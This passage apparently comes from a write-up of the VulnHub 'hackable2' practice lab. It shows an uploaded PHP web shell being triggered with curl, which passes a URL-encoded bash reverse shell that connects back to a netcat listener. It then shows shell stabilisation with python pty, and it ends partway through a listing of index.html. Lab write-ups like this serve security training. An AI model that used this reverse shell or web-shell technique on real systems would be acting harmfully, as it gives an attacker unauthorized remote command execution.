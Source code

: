 `shell.php` was successfully uploaded and listed.

Now, I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/hackable2]
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
```

Then, I triggered the reverse shell by accessing `shell.php` with a `cmd` parameter containing a bash reverse shell payload. I used `curl` for this:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/hackable2]
└─$ curl http://192.168.1.23/files/shell.php?cmd=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.5%2F4444%200%3E%261%22
```

(Note: `192.168.1.5` is my Kali Linux IP address)

On the `netcat` listener, I received the connection:

```shellscript
Connection received on 192.168.1.23 51060
bash: cannot set terminal process group (1179): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:~/html/files$
```

I successfully gained an initial shell as the `www-data` user.

To stabilize the shell, I used `python3`:

```shellscript
www-data@ubuntu:~/html/files$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

I then explored the web root:

```shellscript
www-data@ubuntu:~/html/files$ cd ..
www-data@ubuntu:~/html$ ls
files  index.html
www-data@ubuntu:~/html$ cat index.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"><html xmlns="http://www.w3.org/1999/xhtml">
  <!--    Do you like gobuster? dirb? etc...  -->
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Ubuntu Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }
  body, html {
    padding: 3px 3px 3px 3px;
    background-color: #D8DBE2;
    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;
  }
  div.main_page {
    position: relative;
    display: table;
    width: 800px;
    margin-bottom: 3px;
    margin-left: auto;
    margin-right: auto;
    padding: 0px 0px 0px 0px;
```